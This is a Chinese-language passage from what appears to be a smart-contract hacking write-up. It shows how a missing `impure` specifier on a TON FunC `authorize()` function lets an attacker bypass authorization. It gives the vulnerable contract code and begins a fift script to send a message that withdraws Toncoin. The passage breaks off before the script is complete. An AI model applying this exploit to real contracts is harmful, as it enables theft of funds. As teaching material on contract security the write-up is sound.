 ```
```

此处存在漏洞，`authorize()` 函数缺少 `impure` 指定符，将导致编译器删除该函数，因为根据文档：

`impure` 指定符表示函数可能具有一些不应忽略的副作用。例如，如果函数可以修改合约存储、发送消息或在数据无效时抛出异常并且函数旨在验证这些数据，我们必须指定 `impure` 指定符。

如果没有指定 `impure` 且函数调用的结果未被使用，则 FunC 编译器可能会删除该函数调用。

在智能合约的结尾，消息体被写入输出动作寄存器 `c5`。因此，要进行黑客攻击，我们只需发送一条消息，将 Toncoin 加密货币从智能合约中取出。

```
() execute (cell) impure asm "c5 POPCTR";

() recv_internal (in_msg_full, in_msg_body) {
	if (in_msg_body.slice_empty?()) { ;; ignore empty messages
		return ();
	}
	slice cs = in_msg_full.begin_parse();
	int flags = cs~load_uint(4);

	if (flags & 1) { ;; ignore all bounced messages
		return ();
	}
	slice sender_address = cs~load_msg_addr();

	load_data();
	authorize(sender_address);

	cell request = in_msg_body~load_ref();
	execute(request);
}
```

### 破解信息解析

要发送消息，我们需要编写一个 fift 脚本（它将生成一个包含我们将发送到 TON 网络的 cell 结构的包），我们先从消息体开始。

```
"TonUtil.fif" include
<b  b> =: message
```

根据文档，消息本身可能如下所示（接下来代码为 FunC）：

```
  var msg = begin_cell()
	.store_uint(0x18, 6)
	.store_slice(addr)
	.store_coins(amount)
	.store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
	.store_slice(message_body)
  .end_cell();
```

因此，我们在消息体中写入我们要提取 Toncoin 的地址，将金额表示为 0 Gram，不在消息体中写入任何内容，得到：
